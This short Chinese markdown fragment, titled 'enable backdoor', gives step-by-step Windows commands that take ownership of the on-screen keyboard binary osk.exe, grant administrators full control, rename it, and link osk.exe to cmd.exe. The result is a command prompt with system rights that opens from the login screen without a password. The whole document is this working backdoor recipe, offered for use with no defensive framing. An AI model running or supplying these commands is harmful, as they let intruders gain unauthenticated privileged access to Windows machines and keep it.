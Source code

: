 ### 开启后门 
1. 打开 `C:\Windows\System32\cmd.exe` 依次输入以下命令，依次点击 <kbd>Enter</kbd>
    ```bat{class="line-numbers"}
    cd C:\Windows\System32\
    takeown /f osk.exe /A
    icacls osk.exe /grant administrators:F
    rename osk.exe osk1.exe
    mklink osk.exe cmd.exe
    ```